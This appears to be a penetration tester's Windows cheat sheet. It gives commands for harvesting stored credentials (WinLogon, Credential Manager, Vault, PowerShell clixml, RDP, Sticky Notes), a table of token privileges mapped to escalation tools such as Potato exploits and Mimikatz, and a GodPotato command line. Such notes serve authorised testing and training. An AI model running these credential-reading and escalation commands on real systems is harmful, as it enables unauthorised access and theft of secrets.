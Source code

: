 ### Windows Creds
- WinLogon (look for `DefaultUsername`, `DefaultPassword`, `AutoAdminLogon`)
- Credentials Manager (cmdkey /list)
- Windows Vault (`vaultcmd /list` and `vaultcmd /listcreds:"<Vault Path>"` OR `Get-VaultCredential` in PowerView)
- PowerShell Stored Credentials (look for `.clixml` or `.xml` files)
	- Search: `Get-ChildItem -Path C:\Users\ -Recurse -Include *.clixml,*.xml -ErrorAction SilentlyContinue`
	- Try to import and decrypt (only works as original user)
		- `$cred = Import-Clixml -Path "C:\path\to\file.clixml"` then, 
		- `$cred.GetNetworkCredential()`
- RDP Connections
	- `Get-ChildItem -Path C:\Users\ -Recurse -Include *.rdp -ErrorAction SilentlyContinue`
	- `reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"`
	- `reg query "HKCU\Software\Microsoft\Terminal Server Client\Default"`
- For cmd.exe specifically: `doskey /history`
- Sticky note data (Windows 10+)
	- `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState`
	- Look for `plum.sqlite`, open it with any SQLite viewer
		- `sqlite3 plum.sqlite`

# 1) Privilege/Token Check
```powershell
whoami /priv
```
### Enumeration

| Token/Privilege            | Explanation                                                                                                                                                     |
| -------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `SeImpersonatePrivilege`   | Potato exploits (especially when compromising IIS or any other service account)                                                                                 |
| `SeDebugPrivilege`         | Mimikatz                                                                                                                                                        |
| `SeAssignPrimaryPrivilege` | Similar to `SeImpersonatePrivilege`. Try Potato exploits                                                                                                        |
| `SeBackupPrivilege`        | Grants **read** access to all objects. Get SAM/SYSTEM by making your own readable backup of the system.                                                         |
| `SeRestorePrivilege`       | Grants **write** access to all objects. Try:<br>	- Modifying service binaries<br>	- Overwriting DLLs used by SYSTEM processes<br>	- Modifying registry settings |
| `SeTakeOwnershipPrivilege` | Lets user take ownership over an object. Once you own an object, you can try the same methods as listed above for `SeRestorePrivilege`                          |
| `SeTcbPrivilege`           |                                                                                                                                                                 |
| `SeCreateTokenPrivilege`   |                                                                                                                                                                 |
| `SeLoadDriverPrivilege`    |                                                                                                                                                                 |
| `SeManageVolumePrivilege`  | https://github.com/CsEnox/SeManageVolumeExploit                                                                                                                 |

### Attack

```bat
GodPotato.exe -cmd "cmd.exe /k whoami"
```
*Note: consider adding `-usevuln` flag*
